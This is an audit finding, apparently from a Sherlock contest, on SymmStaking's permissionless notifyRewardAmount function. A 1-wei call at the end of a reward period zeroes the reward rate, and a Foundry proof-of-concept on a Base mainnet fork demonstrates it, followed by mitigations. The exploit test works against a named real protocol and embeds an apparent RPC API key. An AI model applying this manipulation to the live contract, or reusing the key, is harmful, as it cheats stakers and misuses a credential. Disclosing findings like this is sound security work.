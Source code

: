Dizzy Stone Sidewinder

Medium

# Reward Rate Manipulation at Reward Period End Leading to Reward Disparity

## Summary:

The `SymmStaking` contract's `notifyRewardAmount` function, being permissionless, allows an attacker to manipulate the reward rate by sending a minimal amount (1 wei) of reward tokens at the very end of the reward period. This manipulation drastically reduces the reward rate, causing later claimers to receive disproportionately lower rewards than early claimers.

## Vulnerability Details:

The [`_addRewardsForToken`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L366) function calculates the reward rate as `amount / state.duration`. An attacker can exploit this by:

1.  Waiting until the current reward period is nearing its end.
2.  Calling `notifyRewardAmount` with 1 wei of reward tokens.
3.  Because the `state.duration` is a large value (e.g., 1 week in seconds), dividing 1 wei by this duration results in 0 reward rate.
4.  Subsequent reward calculations in `rewardPerToken` and `earned` will be based on this manipulated rate, leading to significantly reduced rewards for users claiming after the manipulation.

## Impact

- **Reward Disparity:** Users claiming rewards immediately after the manipulation will receive significantly less rewards than those who claimed earlier.
- **Unfair Reward Distribution:** This vulnerability violates the intended fair distribution of rewards based on staking duration and amount.

## Proof of Concept:

1. Use this guide to intergrate **foundry** into your project: [foundry](https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry)
2. Create a new file `FortisAudits.t.sol` in the `test` directory.
3. Add the following code to the `FortisAudits.t.sol` file:
4. Run the test using `forge test --mt test_FortisAudits_AttackerMakesRewardRateZero -vvvv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import "../contracts/vesting/Vesting.sol";
import "../contracts/vesting/SymmVesting.sol";
import "../contracts/staking/SymmStaking.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/Test.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract FortisAudits is Test {
	Vesting public vesting;
	SymmVesting public symmVesting_implementation;
	SymmVesting public symmVesting;
	ERC1967Proxy public proxy;
	SymmStaking public symmStaking_implementation;
	SymmStaking public symmStaking;
	address public admin = makeAddr("admin");
	address public alice = makeAddr("alice");
	address public bluedragon = makeAddr("bluedragon");
	address public bob = makeAddr("bob");
	address public jack = makeAddr("jack");
	address public USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;
	address public SYMM = 0x800822d361335b4d5F352Dac293cA4128b5B605f;
	address public VAULT = 0xbA1333333333a1BA1108E8412f11850A5C319bA9;
	address public ROUTER = 0x76578ecf9a141296Ec657847fb45B0585bCDa3a6;
	address public POOL = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;
	address public PERMIT2 = 0x000000000022D473030F116dDEE9F6B43aC78BA3;
	address public SYMM_LP = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;
	address public USDT = 0xfde4C96c8593536E31F229EA8f37b2ADa2699bb2;

	function setUp() public {
		vm.createSelectFork("https://base-mainnet.g.alchemy.com/v2/7lQIfa41qSuRzxZqqrPakiOhNbvMnFID");
		vesting = new Vesting();
		symmVesting_implementation = new SymmVesting();
		symmStaking_implementation = new SymmStaking();
		bytes memory initData = abi.encodeWithSelector(symmStaking_implementation.initialize.selector, admin, SYMM);
		proxy = new ERC1967Proxy(address(symmStaking_implementation), initData);
		symmStaking = SymmStaking(address(proxy));
		initData = abi.encodeWithSelector(symmVesting_implementation.initialize.selector, admin, admin, POOL, ROUTER, PERMIT2, VAULT, SYMM, USDC, SYMM_LP);
		proxy = new ERC1967Proxy(address(symmVesting_implementation), initData);
		symmVesting = SymmVesting(address(proxy));
	}

	function test_FortisAudits_AttackerMakesRewardRateZero() public {
		deal(address(USDC), admin, 604800e6);
		deal(address(SYMM), alice, 1000e18);
		deal(address(USDC), bluedragon, 1000e6);
		vm.prank(admin);
		symmStaking.configureRewardToken(USDC, true);

		// alice stakes 100 SYMM Tokens
		vm.startPrank(alice);
		IERC20(SYMM).approve(address(symmStaking), 100e18);
		symmStaking.deposit(100e18, alice);
		vm.stopPrank();

		// admin deposits 604800 tokens for simplicity reward rate is 1
		symmStaking.rewardState(USDC);
		vm.startPrank(admin);
		address[] memory rewardTokens = new address[](1);
		rewardTokens[0] = USDC;
		uint256[] memory amounts = new uint256[](1);
		amounts[0] = 604800e6;
		IERC20(USDC).approve(address(symmStaking), 604800e6);
		symmStaking.notifyRewardAmount(rewardTokens, amounts);
		vm.stopPrank();

		(,uint256 periodFinish,,,) = symmStaking.rewardState(USDC);

		// Attacker makes the reward rate zero
		vm.warp(periodFinish);
		amounts[0] = 1;
		vm.startPrank(bluedragon);
		IERC20(USDC).approve(address(symmStaking), 1);
		symmStaking.notifyRewardAmount(rewardTokens, amounts);
		vm.stopPrank();
		(,,uint256 rate,,) = symmStaking.rewardState(USDC);
		assertEq(rate,  0); // Making the reward rate zero
	}
}
```

## Recommended Mitigation:

- **Restrict `notifyRewardAmount` Access:**
  - Implement an access control mechanism to restrict the `notifyRewardAmount` function to authorized roles (e.g., `REWARD_MANAGER_ROLE`).
- **Minimum Reward Amount Threshold:**
  - Introduce a minimum reward amount threshold for the `notifyRewardAmount` function. If the amount is below the threshold, the function should revert.
